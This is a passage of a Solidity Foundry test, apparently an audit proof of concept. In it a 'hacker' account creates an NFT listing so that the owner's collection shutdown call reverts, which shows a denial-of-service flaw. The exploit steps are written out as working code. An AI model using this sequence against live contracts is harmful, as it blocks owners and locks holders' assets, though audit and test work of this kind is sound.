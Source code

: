 ```solidity

        // Approves token ID 10, to listing contract
        erc721a.approve(address(listings), 10);
        uint[] memory path3 = new uint[](1);
        path3[0] = 10;



        // Listings Paramenter
        IListings.Listing memory newListingsBaseParameter = listings.listings(address(erc721a), 10);
        newListingsBaseParameter.owner = payable(hacker);
        newListingsBaseParameter.duration = uint32(5 days);
        newListingsBaseParameter.created = uint40(block.timestamp);
        newListingsBaseParameter.floorMultiple = 10_00;


        // Listings Paramenter
        IListings.CreateListing memory listingsParams;
        listingsParams.collection = address(erc721a);
        listingsParams.tokenIds = path3;
        listingsParams.listing = newListingsBaseParameter;

        // Listings Paramenter
        IListings.CreateListing[] memory listingsParamsCorrect = new IListings.CreateListing[](1);
        listingsParamsCorrect[0] = listingsParams;


        // Hacker creates a Listing for the collection erc721a
        listings.createListings(listingsParamsCorrect);
        vm.stopPrank();




        //Delete collection is impossible, due to hasListing error.
        vm.prank(owner);
        vm.expectRevert();
        collectionShutdown.execute(address(erc721a), path);
    }


    function deployAllContracts()internal{


        // Deploy Collection Token
        vm.startPrank(owner);

        _proxyAdmin = new ProxyAdmin();

        bytes memory data = abi.encodeWithSignature("initialize(string,string,uint256)", "TokenName", "TKN", 10);

        _collectionTokenV1Impl = new CollectionToken();
        _collectionTokenV1Proxy = new TransparentUpgradeableProxy(
            address(_collectionTokenV1Impl),
            address(_proxyAdmin),
            data
        );

        _collectionTokenV1 = CollectionToken(address(_collectionTokenV1Proxy));
        assertEq(_collectionTokenV1.name(), "TokenName");

```